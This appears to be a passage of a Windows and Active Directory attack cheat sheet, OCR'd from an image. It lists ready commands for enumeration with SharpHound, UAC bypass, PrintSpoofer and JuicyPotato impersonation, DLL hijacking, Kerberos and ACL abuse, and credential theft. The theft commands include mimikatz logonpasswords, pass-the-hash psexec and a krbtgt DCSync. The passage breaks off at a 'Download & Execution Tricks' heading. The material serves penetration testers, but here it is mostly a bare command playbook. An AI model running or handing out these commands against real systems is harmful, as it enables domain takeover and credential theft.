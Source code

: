 ```
SharpHound.exe -c All

```

# Import the resulting JSON into BloodHound GUI or [BloodHound.py](http://bloodhound.py/) for queries

- **Seatbelt/Proc**: Tools for live attacks: ProcExp64 (Sysinternals) to inspect services and tokens; [psexec.py](http://psexec.py/) (Impacket) to run commands with stolen creds; [wmiexec.py](http://wmiexec.py/); [smbexec.py](http://smbexec.py/).

### Key Commands Summary:

- **Local discovery**:
• `whoami /all`, `whoami /priv`
• `net localgroup administrators`
• `icacls C:\\Folder` (check permissions)
• `Get-AppLockerPolicy -Effective` (if AppLocker is used)
- **UAC bypass**:
• (PowerShell) script as above for fodhelper.
• Compile/run eventvwr-bypass.
- **Spooler/Impersonation**:
• Ensure `whoami /priv` shows SeImpersonatePrivilege.
• Upload & run `PrintSpoofer.exe -i -c cmd.exe`
• Upload & run `JuicyPotato.exe -t * -p cmd.exe -l 443`
- **DLL hijack**:
• Run procmon on an Administrator-started test to find a DLL loaded from a writable location. Create the proxy DLL accordingly.
- **Service exploits**:
• `sc qc <service>` to spot unquoted paths or hex-NULL terminations (for DLL hijack).
- **Domain enumeration**:
• `Get-ADUser -Filter * -Properties *` (if domain rights), or `Get-NetUser` in PowerView.
• `Get-ADObject -SearchBase "CN=Users,DC=domain,DC=com" -LDAPFilter "(|(genericAll=*)(writeDacl=*))"` (to find ACL abuses).
- **Kerberos**:
• `setspn -Q */*` (to query SPNs)
• ldapsearch or PowerView to find preauth-disabled: (userAccountControl: 1.2.840.113556.1.4.803:=4194304).
- **AD ACL manipulation** (requires delegated rights):
• `Get-ObjectAcl -Identity "CN=Domain Admins,..." -ResolveGUIDs`.
• PowerShell to Get-Acl, AddAccessRule, Set-Acl.
- **Lateral/Domain exploit**:
• `mimikatz # sekurlsa::logonpasswords`
• `impacket-psexec -hashes LM:NT domain\\user@target`
• `powershell -Command "Invoke-Mimikatz -Command 'lsadump::dcsync /domain:corp /user:krbtgt'"` (if module loaded).

### Download & Execution Tricks:

- **Certutil**:
